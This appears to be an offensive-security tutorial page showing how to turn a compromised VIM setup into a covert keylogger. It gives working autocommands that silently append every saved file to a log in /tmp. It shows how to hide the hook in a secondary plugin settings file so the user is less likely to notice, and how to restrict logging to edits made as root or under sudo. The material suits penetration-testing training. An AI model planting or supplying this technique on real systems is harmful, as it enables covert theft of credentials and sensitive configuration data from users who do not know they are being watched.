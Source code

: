 # VIM Config File Keylogger

{% hint style="info" %}
we want to create a rudimentary keylogger to log any changes a user makes to a file using our compromised VIM editor. This could be useful for capturing sensitive data in configuration files or scripts.

For this scenario we imagine that the current system uses a restricted VIM environment that blocks any shell commands.
{% endhint %}

## <mark style="color:red;">AutoCommand</mark>

We can use `:autocmd` in a VIM configuration file or in the editor to set actions for a collection of predefined events

Some useful examples are VimEnter (entering VIM), VimLeave (leaving VIM), FileAppendPre (right before appending to a file), and BufWritePost (after writing a change buffer to a file). All of these provide different triggers for performing actions that might benefit an attacker.

We don’t want to risk preventing the user from actually saving their files as this might alert them. To avoid this, we can perform our actions based on the BufWritePost event in VIM. This activates once a buffer has already been written to the intended file.

We can define an autocommand using the autocmd keyword. We then specify which autocommand trigger we want to use, then identify which files we want it to act on. Finally, we’ll provide the command we want to perform once the action is triggered. Let’s set up an autocommand that fires on the BufWritePost action and then writes the content of the file to a log file we specify. We want the action to work on all files being edited. The command would look something like this.

```
echo "" > .vimrc
vi
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
```

In the above command, we start by specifying that we’re defining an autocommand via :autocmd . BufWritePost is the event we’re going to trigger on, meaning that after a buffer is written to a file, we will perform our action. The “\*” specifies that this action will be performed for all files being edited. We could change this to match only files with a particular name or file extension, but in our case we want to do this for every file. Everything after this point is the actual command we’ll perform when the trigger is activated.

## <mark style="color:red;">Keylogger</mark>

The command being run after our condition is triggered is made up of several subcommands. First, we specify that there shouldn’t be any debug output by using the :silent command. We then use :w! to save the buffer contents. The exclamation point (!) is a force modifier. In this case, it will overwrite an existing file if one exists and write to file, even if the file doesn’t already exist. We then redirect the output to append to `/tmp/hackedfromvim.txt.`

Putting the above command into our user’s `.vimrc` file is not very discreet, so let’s add a layer of obfuscation. To do this, we can load a secondary VIM configuration file from a different location. We’ll put our command in `/home/offsec/.vim/plugin/settings.vim`.

While this doesn’t prevent the user from viewing the file, it does make it less likely the user will see it. If we run VIM on a test file and insert any content, we notice that we don’t get any error messages or indication that anything is wrong and the output file is written successfully.

{% hint style="info" %}
It’s also possible to run shell commands on an autocommand trigger. For example, if we wanted to run a shell script instead of saving the buffer to a file, we could just replace everything after `“:silent”` with `“!”` followed by a shell script name or shell command. Note that in our current restricted environment, we can’t use this approach.
{% endhint %}

## <mark style="color:red;">Being More Specific</mark>

This approach is useful, but it logs the entire contents of the changed file to our log file for every file the target user edits. Our log file could grow quickly. Let’s refine our attack to include only files that the user is editing using elevated permissions.

VIM allows for control logic in its internal scripting language. it’s possible to access environment variables from within VIM, including which user the application is running as.

VIM supports the use of basic if statements in its configuration scripts in this manner.

```
:if <some condition>
:<some command>
:else
:<some alternative command>
:endif
```

Combining this with the ability to use environment variables, we can check whether the user is running as root.

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```

we replace our line in settings.vim with this.

in some system configurations it’s possible to persist the VIM’s user environment settings in a sudo context. In these situations, when the user runs VIM as themselves, VIM behaves normally. When they run VIM in a sudo context, however, the keylogger will write any changes they make to files to the log file we’ve specified.
